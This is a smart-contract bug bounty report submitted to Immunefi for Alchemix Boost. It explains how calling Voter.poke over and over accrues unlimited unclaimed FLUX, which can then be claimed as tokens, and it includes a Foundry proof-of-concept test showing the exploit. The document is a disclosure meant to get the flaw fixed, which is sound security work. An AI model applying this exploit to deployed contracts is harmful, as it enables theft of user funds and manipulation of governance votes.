 
# Infinite mint of FLUX using poke

Submitted on Tue May 21 2024 08:23:35 GMT-0400 (Atlantic Standard Time) by @konata for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31579

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
There is an infinite mint vulnerability for the FLUX token using the `poke` functionality of the `Voter` contract. 

## Vulnerability Details
In the `_vote` function of the Voter contract, it calls into `FLUX.accrueFlux`, which increases the user's unclaimed FLUX balance from the VotingEscrow balance. It later calls `FLUX.updateFlux` to decrease it, but only with the amount of `boost`, which can simply be 0:
```
    function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
        _;
        IFluxToken(FLUX).accrueFlux(_tokenId);
        _;
        // Update flux balance of token if boost was used
        if (_boost > 0) {
            IFluxToken(FLUX).updateFlux(_tokenId, _boost);
        }
    }
```
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455

The function `FLUX.accrueFlux` increases the balance using `VotingEscrow.claimableFlux(tokenId)`, which is a view function and stays the same depending on the amount and lock duration of the token ID:
```
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188-L192

`VotingEscrow.claimableFlux` does not depend on the amount of unclaimed FLUX in FluxToken for the user, and so the value returned from `claimableFlux` remains the same.

One can therefore simply call `Voter.poke()` over and over again, as this calls `FluxToken.accrueFlux` each time and uses a boost of 0. The user's `unclaimedFlux` in `FluxToken` would grow with the entire balance each time.

The user can then call `FluxToken.claimFlux` to turn the unclaimed FLUX into real ERC20 tokens that can be traded.

## Impact Details
The impact is an infinite mint of FLUX. This is a critical impact to not only the governance process (since FLUX can be used to boost), but also to the market and TVL of FLUX.

The vulnerability can be exploited by anyone and in the time frame of the same transaction.

## References
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412-L455
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188-L192
        
## Proof of concept
## Proof of Concept

A simple PoC that shows the attack scenario by calling `poke` each time.

```
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import "./Token.sol";

import "src/FluxToken.sol";
import "src/Minter.sol";
import "src/Voter.sol";
import "src/VotingEscrow.sol";
import "src/factories/BribeFactory.sol";
import "src/factories/GaugeFactory.sol";
import "src/RewardsDistributor.sol";
import "src/RevenueHandler.sol";
import "src/RewardPoolManager.sol";

contract PoC is Test {

    Token alcx;
    Token bpt;
    FluxToken flux;
    VotingEscrow ve;
    Voter voter;
    Minter minter;
    BribeFactory bf;
    GaugeFactory gf;
    RewardPoolManager rpm;

    function setUp() public {
        _next_epoch();
        alcx = new Token("ALCX", "ALCX");
        bpt = new Token("BPT", "BPT");
        bf = new BribeFactory();
        gf = new GaugeFactory();
        flux = new FluxToken(address(this));
        ve = new VotingEscrow(address(bpt), address(alcx), address(flux), address(this));
        voter = new Voter(address(ve), address(gf), address(bf), address(flux), address(this));
        minter = new Minter(IMinter.InitializationParams({
            alcx: address(alcx),
            voter: address(voter),
            ve: address(ve),
            rewardsDistributor: address(this),
            revenueHandler: address(this),
            timeGauge: address(this),
            treasury: address(this),
            supply: 1793678e18,
            rewards: 12724e18,
            stepdown: 130e18
        }));
        rpm = new RewardPoolManager(address(this), address(ve), address(bpt), address(this), address(this));

        flux.setMinter(address(minter));
        flux.setVoter(address(voter));
        flux.setVeALCX(address(ve));

        ve.setVoter(address(voter));
        ve.setRewardPoolManager(address(rpm));

        voter.setMinter(address(minter));
    }

    function test_poc() public {
        bpt.approve(address(ve), type(uint).max);
        uint tokenId = ve.createLock(1 ether, 0, true);

        console.log(flux.balanceOf(address(this)));

        for (uint i; i < 10; i++) {
            voter.poke(tokenId);
        }

        flux.claimFlux(tokenId, flux.unclaimedFlux(tokenId));

        console.log(flux.balanceOf(address(this)));
    }
```